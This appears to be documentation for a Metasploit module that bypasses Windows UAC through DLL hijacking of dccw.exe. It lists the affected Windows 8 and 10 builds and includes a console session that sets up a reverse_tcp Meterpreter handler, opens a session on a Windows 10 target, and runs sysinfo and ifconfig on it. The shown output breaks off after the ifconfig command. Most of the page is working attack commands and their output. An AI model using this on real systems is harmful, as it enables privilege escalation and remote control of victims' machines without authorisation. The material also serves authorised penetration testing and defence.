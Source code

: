 

## Description

This module adds a bypass for UAC that relies on DLL hijacking of the dccw.exe process.  It has been tested on and 
supports both x86 and x64 releases of Windows 8, 8.1, 10_1511, 10_1607, and 10_1703.  It does not work with any versions of Windows 7.

### Vulnerable application setup
Not Applicable; works on stock Windows releases.

### Running Example:
```
> use exploit/multi/handler
> set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
> set LHOST <MSF_IP>
LHOST => <MSF_IP>
>  set LPORT 30009
LPORT => 30009
>  show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     <MSF_IP>         yes       The listen address
   LPORT     30009            yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


> run -z
[*] Started reverse TCP handler on <MSF_IP>:30009 
[*] Starting the payload handler...
[*] Sending stage (957487 bytes) to <Win10x86_IP>
[*] Meterpreter session 1 opened (<MSF_IP>:30009 -> <Win10x86_IP>:50041) at 2017-10-03 12:17:42 -0700
[*] Session 1 created in the background.
> sessions -C sysinfo
[*] Running 'sysinfo' on meterpreter session 1 (<Win10x86_IP>)
Computer        : WIN10X86-1511
OS              : Windows 10 (Build 10586).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 4
Meterpreter     : x86/windows
> sessions -C ifconfig
[*] Running 'ifconfig' on meterpreter session 1 (<Win10x86_IP>)
```